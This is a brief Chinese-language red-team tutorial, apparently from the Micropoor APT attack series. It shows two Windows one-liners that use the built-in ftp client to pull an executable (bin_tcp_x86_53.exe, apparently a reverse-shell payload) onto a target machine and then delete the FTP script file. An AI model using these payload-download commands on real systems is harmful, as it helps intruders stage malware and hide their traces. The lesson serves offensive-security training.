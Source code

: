 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**windows 全平台自带ftp，在实战中需要考虑两点。**
* 数据传输的完整性。
* 代码得精简

本季作为第四十课的补充，一句话下载更为精简。更符合于实战。

**靶机：**192.168.1.119
**demo下载文件为：**bin_tcp_x86_53.exe
![](media/a0c59424cccd7240a929a043c65a10d1.jpg)

```bash
echo open 127.0.0.1 > o&echo user 123 123 >> o &echo get bin_tcp_x86_53.exe >> o &echo quit >> o &ftp ‐n ‐s:o &del /F /Q o
```

![](media/3f470da4395e76cac4553c1c7081a718.jpg)



缩短一句话下载：
```bash
echo open 127.0.0.1 > o&echo get bin_tcp_x86_53.exe >> o &echo quit >> o &ftp ‐A ‐n ‐s:o &del /F /Q o
```
![](media/b4b18ed037915cf463987e9a1bd3ba9c.jpg)

![](media/bf3ffa7da2f7737d7b8f4be920d3b143.jpg)

>   Micropoor
